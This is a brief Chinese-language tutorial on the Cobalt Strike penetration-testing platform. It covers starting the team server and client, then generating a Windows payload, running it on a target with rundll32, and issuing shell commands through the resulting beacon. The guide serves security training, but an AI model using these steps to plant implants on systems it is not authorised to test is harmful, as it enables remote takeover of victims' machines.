

# CobaltStrike


- [CobaltStrike](#CobaltStrike)
    - [简介](#简介)
    - [使用](#使用)
        - [启动](#启动)
        - [上线一个目标](#上线一个目标)

## 简介

Cobalt Strike是一款渗透测试神器，常被业界人称为CS神器。Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端与服务端，服务端是一个，客户端可以有多个，可被团队进行分布式协团操作。
Cobalt Strike集成了端口转发、扫描多模式端口Listener、Windows exe程序生成、Windows dll动态链接库生成、java程序生成、office宏代码生成，包括站点克隆获取浏览器的相关信息等。

- 官网地址：https://www.cobaltstrike.com/

目录说明

```
- agscript：拓展应用的脚本。
- c2lint：用于检查profile 的错误和异常。
- teamserver：团队服务器程序。
- cobaltstrike 和 cobaltstrike.jar:客户端程序。因为teamserver文件是通过Java来调用CobaltStrike 的，所以直接在命令行环境中输入第一个文件的内容也能启动Cobalt Strike 客户端 (主要是为了方便操作)。
- logs:日志，包括 Web日志、Beacon日志、截图日志、下载日志、键盘记录日志等。
- datas：用于保存当前TeamServer的一些数据。
- update 和 update.jar：用于更新Cobalt Strike。
```

## 使用

需要先部署TeamServer团队服务器，需要设置当前主机的IP地址和团队服务器的密码

### 启动

- 服务端teamserver

```bash
./teamserver 10.30.0.95 123456
```


- 客户端CobaltStrike

```bash
 ./cobaltstrike
```


填写团队服务器的IP地址、端口号、用户名、密码，这里的用户名任意填写、不能是已经登录的用户名。端口号默认为50050


**连接多个团队服务器**

Cobalt Strike → New Connection


### 上线一个目标

- 首先配置一个监听器：CobaltStrike->Linteners->Add


- 生成一个payload：Attacks->Packages->Windows Executable


- 然后生成的dll上传到目标机器Windows，执行命令：

```
rundll32.exe artifact.dll Start
```



可以看到目标上线成功，右键interact可执行命令

```bash
shell whoami #命令执行需要前面加上shell
```

因为cobaltstrike心跳默认60s，执行命令响应比较慢，可设置sleep加快速度

```
sleep 1
```


## 参考链接

- ffffffff0x团队-1earn的CobaltStrike教程：https://github.com/ffffffff0x/1earn/blob/b068ec66544975f03160088fcca375e95768b198/1earn/Security/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7/CobaltStrike.md